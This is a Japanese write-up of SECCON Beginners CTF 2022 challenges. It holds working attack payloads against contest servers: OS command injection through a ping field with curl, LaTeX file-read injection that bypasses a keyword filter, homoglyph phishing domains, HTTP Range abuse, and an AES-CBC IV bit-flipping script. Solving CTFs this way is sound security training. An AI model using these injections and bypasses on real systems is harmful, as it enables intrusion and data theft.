


# SECCON Beginners CTF 2022 Writeups

tarutaruで参加して114位でした。


* [Web Util](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#web-util)
* [gallery](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#gallery)
* [textex](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#textex)
* [phisher](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#phisher)
* [H2](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#h2)
* [hitchhike4b](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#hitchhike4b)
* [Quiz](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#quiz)
* [CoughingFox](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#coughingfox)
* [Command](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#command)

## 

### Web Util

IPアドレスを入力すると、そのアドレスに対してpingを投げるプログラムとなっている。サーバが実際に実行するコマンドは以下の通りである。

```go
commnd := "ping -c 1 -W 1 " + param.Address + " 1>&2"
```

`param.Address`は好きに決定できるので、例えば`param.Address`に`127.0.0.1;ls`と入力すれば`commnd := "ping -c 1 -W 1 127.0.0.1;ls 1>&2"`となってOSコマンドインジェクションが成立する。しかし、実際に`127.0.0.1;ls`を入力すると`Invalid IP address`と出力されてしまう。


しかし、フロントエンドのソースコードを以下のような記述がある。

```js
if (/^(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/.test(address))
```

つまり、IPアドレスのvalidationはフロントエンドで実行されていました。よって、curlで直接実行してみる。

`curl -X POST https://util.quals.beginners.seccon.jp/util/ping -H 'Content-Type: application/json' --data-raw '{"address":"127.0.0.1;ls /"}'`

出力は以下の通りである。。

```json
{
   "result":"PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.130 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packets received, 0% packet loss\nround-trip min/avg/max = 0.130/0.130/0.130 ms\napp\nbin\ndev\netc\nflag_A74FIBkN9sELAjOc.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"
}
```

`flag_A74FIBkN9sELAjOc.txt`というファイルがあった。catで中身を見て見る。

`curl -X POST https://util.quals.beginners.seccon.jp/util/ping -H 'Content-Type: application/json' --data-raw '{"address":"127.0.0.1;cat /flag_A74FIBkN9sELAjOc.txt"}'`

```json
{
   "result":"PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.134 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packets received, 0% packet loss\nround-trip min/avg/max = 0.134/0.134/0.134 ms\nctf4b{al1_0vers_4re_i1l}\n"
}
```

`ctf4b{al1_0vers_4re_i1l}`

### gallery

いくつかの写真を見ることができるWebサイトのようだ。



URLで`https://gallery.quals.beginners.seccon.jp/?file_extension=jpeg`のように`file_extension`を指定すると、そのファイルのみを表示することができる。

該当プログラムを見るとこのようになっている。

```go
fileExtension := strings.ReplaceAll(r.URL.Query().Get("file_extension"), ".", "")
fileExtension = strings.ReplaceAll(fileExtension, "flag", "")
if fileExtension == "" {
    fileExtension = "jpeg"
}
...
for _, file := range files {
    if !strings.Contains(file.Name(), fileExtension) {
        continue
    }
    res = append(res, file.Name())
}
```

`strings.Contains`と書かれているので、別に拡張子を検索しているのではなく、ファイル名に含まれる文字列を検索しているようだ。しかし、`flag`という文字列は検索できないようになっている。

とはいえ`https://gallery.quals.beginners.seccon.jp/?file_extension=fl`のように`fl`だけを検索するとフラグのファイル名を取得することができた。


しかし、ファイルの中身は`?`で埋め尽くされていて、その中身を見ることはできなかった。


該当ソースコードを見ると、このようになっている。PDFファイルが10240バイトより大きかったため、`?`で埋め尽くすようなコードになっていた。

```go
filledVal := []byte("?")
length := len(data)
if length > w.lengthLimit {
    w.ResponseWriter.Write(bytes.Repeat(filledVal, length))
    return length, nil
}
...
h.ServeHTTP(&MyResponseWriter{
    ResponseWriter: rw,
    lengthLimit:    10240, // SUPER SECURE THRESHOLD
}, r)
```

> **Note**
> これじゃあどうやってもPDFファイルが取得できないと嘆いていたのですが、先日[Web APIの設計](https://www.amazon.co.jp/dp/B08CK2H12H/ref=dp-kindle-redirect?_encoding=UTF8&btkr=1)という本を読みまして、そこにこのように書いてありました。
> > Banking APIの例では、これらの**ページング**パラメータをクエリパラメータとして渡すことができる。例えば、GET /accounts/1234567/transactions?pageSize=10&page=1のようになる。一方で、HTTPプロトコルを利用し、HTTPヘッダー Rangeを指定するという方法もある。(Web APIの設計 翔泳社 P171)
>
> そう、WebAPIでは必ずしもクエリパラメータでリソース範囲を指定するのではなく、Rangeヘッダーでリソース範囲を指定する方法もあるのだと！！(知らなかったので感動してた)

そこでRangeヘッダーを指定して、curlでPDFを半分に分けて、作成していく。

```sh
curl https://gallery.quals.beginners.seccon.jp/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf -H 'Range: bytes=0-9999' > flag.pdf
curl https://gallery.quals.beginners.seccon.jp/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf -H 'Range: bytes=10000-19999' >> flag.pdf
```

PDFファイルを開くとこのようになる。


`ctf4b{r4nge_reque5t_1s_u5efu1!}`

### textex

LaTeXをPDFに変換するサービスである。


LaTeXをPDFに変換する際には注意しなければいけないと[PayloadAllTheThingsさん](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)が以前言っていたのを思い出し、ここを見た。

フラグのようなテキストファイルをコンパイル時に読み込むには`\input{/etc/passwd}`コマンドを使用すると良いらしい。

しかし、プログラムを見ると`flag`という文字列は使用できないため、一旦ローカル環境でプログラムの一部を修正して実行してみる。

```py
import os
import random
import shutil
import string
import subprocess


def tex2pdf(tex_code):#  -> str
    # Generate random file name.
    filename = "".join([random.choice(string.digits + string.ascii_lowercase + string.ascii_uppercase) for i in range(2**5)])
    # Create a working directory.
    os.makedirs(f"tex_box/{filename}", exist_ok=True)
    # .tex -> .pdf
    try:
        # No flag !!!!
        # if "flag" in tex_code.lower():
        #     tex_code = ""
        # Write tex code to file.
        with open(f"tex_box/{filename}/{filename}.tex", mode="w") as f:
            f.write(tex_code)
        # Create pdf from tex.
        subprocess.run(["pdflatex", "-output-directory", f"tex_box/{filename}", f"tex_box/{filename}/{filename}.tex"], timeout=0.5)
    except:
        pass
    if not os.path.isfile(f"tex_box/{filename}/{filename}.pdf"):
        # OMG error ;(
        shutil.copy("tex_box/error.pdf", f"tex_box/{filename}/{filename}.pdf")
    print("\n", filename, "\n")
    return f"{filename}"


if __name__ == "__main__":
    tex_code = r"""\documentclass{article}
\begin{document}
\input{flag}
\end{document}"""
    tex2pdf(tex_code)
```



正しくフラグが読み込めた。一応フラグを正しそうなものにしておく。

```txt
ctf4b{this_is_not_a_fl4g!}
```

コンパイルエラーが出た。

```txt
No file PCDYb9grIBztbIGvD8KiqyEXAGtLR9L2.aux.
(./flag
! Missing $ inserted.
<inserted text> 
                $
l.1 ctf4b{this_
               is_not_a_fl4g!}
```

どうやらflagを読み込んだ際に、`_`をLaTeXの特殊記号の`_`と認識したようだ。[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)に書かれている通り、`\catcode`を持ちいてエスケープする。

```py
...
if __name__ == "__main__":
    tex_code = r"""\documentclass{article}
\begin{document}
\catcode `\_=12
\input{flag}
\end{document}"""
    tex2pdf(tex_code)
```

正しく読み込めた。


残りは`flag`という文字がLaTeXコードに含まれてはいけないという制約のみである。

```py
# No flag !!!!
if "flag" in tex_code.lower():
    tex_code = ""
```

少し調べると、[0day.work](https://0day.work/hacking-with-latex/)というサイトに「Bypassing blacklists」という項目があり、そこで`input`,`include`などのフィルターをバイパスする解説がされていた。

> Yes, we can! We can use `\def` to bypass the filter and create a temporary file to read the output:

解説の通り、`\def`コマンドを使用して`flag`を`fl`と`ag`に分割する。

```tex
\documentclass{article}
\def \fl {fl}
\def \ag {ag}
\begin{document}
  \catcode `\_=12
  \input{\fl\ag}
\end{document}
```

これを提出するとフラグらしきものが得られる。


`ctf4b15˙73x˙pr0n0unc3d˙ch0u?`

おそらく`˙`は`\catcode`の影響でエスケープされた文字であると推測ができ、`ctf4b`の直後と末尾に`{`, `}`が入るだろうと推測ができる。おそらくLaTeXの`{`や`}`は特殊記号であるため、うまく表示できなかったものと判断する。

よってフラグは以下の通りである。

`ctf4b{15_73x_pr0n0unc3d_ch0u?}`

## misc

### phisher

ホモグラフ攻撃を行う問題。`www.example.com`の全ての文字を`www.example.com`に見えるようにし、かつ`www.example.com`ではない文字列を作成する。
例えば、`ė`は`e`のように見えるが、`ė`は`e`ではない。

`homoglyphs attack generator` とかで検索するとたくさん出てくるが、それらを色々使用して、ホモグラフ攻撃が刺さる文字を1文字ずつ特定する。`homoglyphs`というツールもある。

```py
import homoglyphs as hg
li = hg.Homoglyphs(categories=('LATIN', 'COMMON', 'CYRILLIC')).get_combinations("w")
```

まずは`w`から順にホモグラフリストを作成する。ホモグラフリストを用いてペイロードを生成する。こんな感じに。

```txt
ᴡᴡᴡ․E×àmрⅠe.com
ᴡᴡᴡ․È×àmрⅠe.com
ᴡᴡᴡ․É×àmрⅠe.com
ᴡᴡᴡ․Ê×àmрⅠe.com
ᴡᴡᴡ․Ë×àmрⅠe.com
ᴡᴡᴡ․é×àmрⅠe.com
ᴡᴡᴡ․ê×àmрⅠe.com
ᴡᴡᴡ․ë×àmрⅠe.com
ᴡᴡᴡ․Ē×àmрⅠe.com
ᴡᴡᴡ․ē×àmрⅠe.com
ᴡᴡᴡ․Ĕ×àmрⅠe.com
```

そしたらそれぞれのペイロードをサーバに送信する。

```py
from pwn import *

def read_file(path: str):
    with open(path) as f:
        return f.read()

payloads = read_file("payloads.txt").split("\n")

for i, payload in enumerate(payloads):
    print(i, payload)
    p = remote('phisher.quals.beginners.seccon.jp', 44322)
    ret = p.recvuntil('FQDN: ')
    p.sendline(payload.encode('utf-8'))

    ret = p.recv()
    print(ret)
```

この時、間違ったペイロードを送ると(ホモグラフになってないペイロード)このように出力される。

```txt
"www.éxample.com" is not "www.example.com" !!!!
```

正しいペイロードを送るとこのようになる。

```txt
"e" is included in "www.example.com" ;(
```

上記の出力は、ホモグラフになっているものの、`e`は普通の`e`だから変えてね、という意味である。

このように1文字ずつ順に決めていくと、`ᴡᴡᴡ․ė×àⅿрⅠė․ⅽοⅿ`がホモグラフとして成立する正しいペイロードとなる。

`ctf4b{n16h7_ph15h1n6_15_600d}`

### H2

Goファイルとpcapファイルが与えられる。

pcapファイルを見ると、さまざまな三文字のパス(`/AAA`, `/AAB`など)にGETでアクセスしていることがわかる。


また、Goファイルにはこのような記載がある。

```go
if r.URL.Path == SECRET_PATH {
    w.Header().Set("x-flag", "<secret>")
}
w.WriteHeader(200)
fmt.Fprintf(w, "Can you find the flag?\n")
```

つまり、正解のパスがあり、そのパスへのアクセスに対するレスポンスにはフラグがヘッダに入っている。

とりあえずwiresharkのフィルタで`http2.header and http2.headers.status eq 200`を入力し、200が返ってきたヘッダだけを抽出する。

この状態で、`ctf4b`という文字列をパケット詳細の中から検索する。


`ctf4b{http2_uses_HPACK_and_huffm4n_c0ding}`

### hitchhike4b

```py
# Source Code

import os
os.environ["PAGER"] = "cat" # No hitchhike(SECCON 2021)

if __name__ == "__main__":
    flag1 = "********************FLAG_PART_1********************"
    help() # I need somebody ...

if __name__ != "__main__":
    flag2 = "********************FLAG_PART_2********************"
    help() # Not just anybody ...
```

`help()`が実行された状態のインタラクティブシェルを実行できる。とりあえず`__main__`を入力し、実行しているファイルの情報を確認する。

```txt
help> __main__
Help on module __main__:

NAME
    __main__

DATA
    __annotations__ = {}
    flag1 = 'ctf4b{53cc0n_15_1n_m'

FILE
    /home/ctf/hitchhike4b/app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py
```

DATAに前半のフラグが書かれていた。`ctf4b{53cc0n_15_1n_m`

`flag2`に関する箇所はこの辺り。

```py
if __name__ != "__main__":
    flag2 = "********************FLAG_PART_2********************"
    help()
```

つまり、実行させたファイルとは別のファイルとして、このスクリプトを実行させる必要がある。
(もしこのファイルが`main.py`なら、`python main.py`を行わずに、`main.py`を実行する必要がある)

helpに描かれている通り、一旦modulesを実行してみる。

```txt
help> modules

Please wait a moment while I gather a list of all available modules...

__future__          _testmultiphase     getpass             sched
_abc                _thread             gettext             secrets
_aix_support        _threading_local    glob                select
_ast                _tkinter            graphlib            selectors
_asyncio            _tracemalloc        grp                 setuptools
_bisect             _uuid               gzip                shelve
_blake2             _warnings           hashlib             shlex
_bootsubprocess     _weakref            heapq               shutil
_bz2                _weakrefset         hmac                signal
_codecs             _xxsubinterpreters  html                site
_codecs_cn          _xxtestfuzz         http                smtpd
_codecs_hk          _zoneinfo           idlelib             smtplib
_codecs_iso2022     abc                 imaplib             sndhdr
_codecs_jp          aifc                imghdr              socket
_codecs_kr          antigravity         imp                 socketserver
_codecs_tw          app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc importlib           spwd
...
```

`app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc`という怪しいファイルがあった。これをhelpで確認する。

```py
help> app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc
 _     _ _       _     _     _ _        _  _   _
| |__ (_) |_ ___| |__ | |__ (_) | _____| || | | |__
| '_ \| | __/ __| '_ \| '_ \| | |/ / _ \ || |_| '_ \
| | | | | || (__| | | | | | | |   <  __/__   _| |_) |
|_| |_|_|\__\___|_| |_|_| |_|_|_|\_\___|  |_| |_.__/
...
```

どうやら`app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py`が実行された。しかも、`app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py`は最初に開いたpythonファイルと同じソースコードのようだ。おそらくですが、実行中のファイルがモジュールとして別の場所に配置されているようで、かつhelp関数がpythonファイルを読み込むと、そのファイルを実行するようだった。

なので、一度`help> app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc`をした状態は、`app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py`のhelp関数が呼ばれた状態になる。よって、この状態で(つまり、2回連続で)`help> app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc`を行うとDATAにフラグが格納されている。

```txt
help> app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc
Help on module app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc:

NAME
    app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc

DATA
    flag2 = 'y_34r5_4nd_1n_my_3y35}'

FILE
    /home/ctf/hitchhike4b/app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py
```

`y_34r5_4nd_1n_my_3y35}`

最終的にフラグは`ctf4b{53cc0n_15_1n_my_34r5_4nd_1n_my_3y35}`となる。

## reversing

### Quiz

IDAで中を見ると、フラグが普通に載っている。


`ctf4b{w0w_d1d_y0u_ca7ch_7h3_fl4g_1n_0n3_sh07?}`

## crypto

### CoughingFox

このような独自の暗号を解読する。

```py
from random import shuffle

flag = b"ctf4b{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}"

cipher = []

for i in range(len(flag)):
    f = flag[i]
    c = (f + i)**2 + i
    cipher.append(c)

shuffle(cipher)
print("cipher =", cipher)
```

`c = (f + i)**2 + i`の箇所に着目する。`f`はフラグの角文字であるが、`(f + i)`は2乗しているため、任意の文字c1, c2と49以下の i, jが存在するとき、`(c1 + i)**2 + i == (c2 + j)**2 + j`となる(c1, i)と(c2, j)の組み合わせは存在しない。よって、1文字ずつありうる文字を全探索する。

```py
import string

cipher = [12147, 20481, 7073, 10408, 26615, 19066, 19363, 10852, 11705, 17445, 3028, 10640, 10623, 13243, 5789, 17436, 12348, 10818, 15891, 2818, 13690, 11671, 6410, 16649, 15905, 22240, 7096, 9801, 6090, 9624, 16660, 18531, 22533, 24381, 14909, 17705, 16389, 21346, 19626, 29977, 23452, 14895, 17452, 17733, 22235, 24687, 15649, 21941, 11472]

chars = (
    "_"
    + "{}"
    + string.ascii_lowercase
    + string.digits
    + string.ascii_uppercase
    + string.punctuation
)

for i in range(49):
    for c in chars:
        ci = (ord(c) + i) ** 2 + i
        if ci in cipher:
            print(c, end="")
            break

```

`ctf4b{Hey,Fox?YouCanNotTearThatHouseDown,CanYou?}`

### Command

できることは以下の通りである。

* `fizzbuzz`または `primes`を暗号化する
* 暗号文を復号し、`fizzbuzz`, `prim`, `getflag`のいずれかであればその関数を実行する

暗号化はAESのCBCモードを使用している。

```py
iv = os.urandom(16)
cipher = AES.new(key, AES.MODE_CBC, iv)
enc = cipher.encrypt(pad(cmd, 16))
```

CBCモードの特徴として、IVだけは改ざんしても、平文ブロックの1ヶ所にしか影響が起こらない。


画像は[CBC Bit-Flipping Attack(Qiita)](https://qiita.com/no0m/items/36ecdcbeb392b26399e4)より引用

そこで、Bit-flipping Attackを行い、IVの値をいい感じに改ざんすることで復号後の値を`getflag`に変更する。今回は`primes`の暗号文を復号すると`getflag`になるようにする。

まずは`enc = cipher.encrypt(pad(cmd, 16))`のpadの箇所、パディング後の文字列を取得する。パディングは文字数ごとに決まった値で埋められる。

```py
from Crypto.Util.Padding import pad
print(pad(b"primes", 16)) # b'primes\n\n\n\n\n\n\n\n\n\n'
print(pad(b"getflag", 16)) # b'getflag\t\t\t\t\t\t\t\t\t'
```

次に、暗号文からIVだけを取り出し、復号後の値が`getflag`になるよう改ざんする。ソースコードは[この記事](https://ctftime.org/writeup/26717)を参考にした。

```py
enc_test = bytes.fromhex(
    "bb729b2f635746cf387a5e5ad95b8fdc890481cb99f26e5d93ad371eb0ad5792"
)


def xor(a, b):
    return bytes([_a ^ _b for _a, _b in zip(a, b)])


iv = enc_test[:16]
payload = enc_test[16:]

iv = (
    xor(
        xor(iv[0:16], b"primes\n\n\n\n\n\n\n\n\n\n"),
        b"getflag\t\t\t\t\t\t\t\t\t",
    )
    + iv[16:]
)

payload = iv + payload
print(bytes.hex(payload)) # ac6586246a452bcc3b795d59da588cdf890481cb99f26e5d93ad371eb0ad5792
```

最後に、この値を提出するとフラグが得られる。

```py
nc command.quals.beginners.seccon.jp 5555
----- Menu -----
1. Encrypt command
2. Execute encrypted command
3. Exit
> 2
Encrypted command> ac6586246a452bcc3b795d59da588cdf890481cb99f26e5d93ad371eb0ad5792
ctf4b{b1tfl1pfl4ppers}
```

`ctf4b{b1tfl1pfl4ppers}`
